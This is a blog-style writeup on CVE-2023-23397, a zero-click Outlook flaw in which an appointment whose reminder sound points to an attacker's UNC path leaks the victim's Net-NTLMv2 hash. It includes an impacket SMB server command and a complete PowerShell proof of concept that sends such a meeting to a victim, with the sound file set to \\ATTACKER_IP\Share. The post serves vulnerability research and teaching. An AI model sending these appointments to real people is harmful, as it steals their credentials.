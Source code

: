 ```yaml
---
layout: post
title: CVE-2023-23397 - Zero Click Net-NTLMv2 Credential Hash Leak on Outlook Client
categories: [security, cve, vulnerability]
tags: [security, cve, vulnerability, windows]
description: A comprehensive writeup that helps to understand Zero Click Net-NTLMv2 Credential Hash on Outlook Client.
---
```


## Quick Overview

Microsoft announced patch for [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397) which generally goes out usually on tuesday (Mar 14, 2023). This particular vulnerability caught my eyes due to the fact that I actively work on `Active Directory` based HackTheBox machines and this one is something similar to `Android Application Exploits` where attacker passes random url to `activities` or `services` and the outbound network connection often contains sensitive tokens attached to it. 

IIRC, I reported a similar vulnerability in 2020 which completely leaks encrypted sandbox local files including e-mail, tasks in the ProtonMail Android Client [reference](https://proton.me/blog/protonmail-security-contributors) However, it requires user interaction in the victim side of Android app.

## CVE Summary

> TLDR: When the Malicious scheduled appointment email sent by attacker lands in the Victims Outlook Client, the client leaks the Net-NTLMv2 Credential Hash to the Attacker controlled SMB Server with Zero Interaction on Victim side

Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, \\ATTACKER_IP\Share\Sounds\reminder.wav which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the victim machine to Attacker controlled UNC Path to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and attacker controlled SMB server actually leaks the victims Net-NTLMv2 Credential hash to the attacker.

![CVE-2023-23397-Sequential-diagram-to-understand-exploit](/assets/media/CVE-2023-23397-sequential-diagram.png)

## Quick Note on Net-NTLMv2 Credentials

If you're no stranger to Offensive security, You would definitely value the NTLMv2 Token. For others, check out quick overview on [NTLM Authentication]((https://admiralgaust.github.io/OSCP-notes/info/active-directory-theory.html)) used within Active Directory

## Exploit Strategy

1. Host a SMB Server with the help of impacket tools

   ```shell
   > attacker@kali $ smbserver.py Share sub_directory -smb2support
   ```

   ![CVE-2023-23397-Demo-Screenshot-1](/assets/media/htb-cve-2023-23397-demo-screenshot-1.png)

2. Create Outlook Appointment from Powershell (Attacker owned Windows Machine). You could potentially utilize below script to generate malcious appointment natively from powershell. [Source](https://github.com/ka7ana/CVE-2023-23397)

   ```powershell
   # PoC script for CVE-2023-23397, ported to PowerShell
   # Credits go to Dominic Chell at MDSec
   # See: https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/

   $ol = New-Object -ComObject Outlook.Application
   $meeting = $ol.CreateItem('olAppointmentItem')
   $meeting.Subject = 'Time for a malicious meeting'
   $meeting.Body = 'Simple CVE-2023-23397 test script'
   $meeting.Location = 'Virtual'
   $meeting.ReminderSet = $True
   $meeting.Importance = 1
   $meeting.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
   $meeting.Recipients.Add('victim@domain.com') 

   $meeting.ReminderMinutesBeforeStart = 15
   $meeting.Start = [datetime]::Now.AddMinutes(16)
   $meeting.Duration = 30
   $meeting.ReminderPlaySound = $True
   $meeting.ReminderOverrideDefault = $True

   $meeting.ReminderSoundFile = "\\ATTACKER_IP\Share\Sounds\sample.wav" 

   $meeting.Save()
   $meeting.Send()
   ```

   ![CVE-2023-23397-Demo-Screenshot-2-Powershell](/assets/media/htb-cve-2023-23397-demo-screenshot-2-windows-powershell.png)

3. When the `Victim Outlook` Parses the appointment and reminds about the appointment, SMBv2 Handshare Negotiation is initiated between `Victim Outlook Process` and Attackers SMB Server
   
   ![CVE-2023-23397-Demo-Screenshot-4-exploit-desktop-client](/assets/media/htb-cve-2023-23397-outlook-client-demo-leak-ntlm-hash.png)
   ![CVE-2023-23397-Demo-Screenshot-3-exploit-leak](/assets/media/htb-cve-2023-23397-demo-screenshot-2-exploit.png)


## Source and Reference:

1. [Microsoft Outlook Elevation of Privilege Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)
2. [OutLook NTLM Leak Demo](https://tryhackme.com/room/outlookntlmleak)


## Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
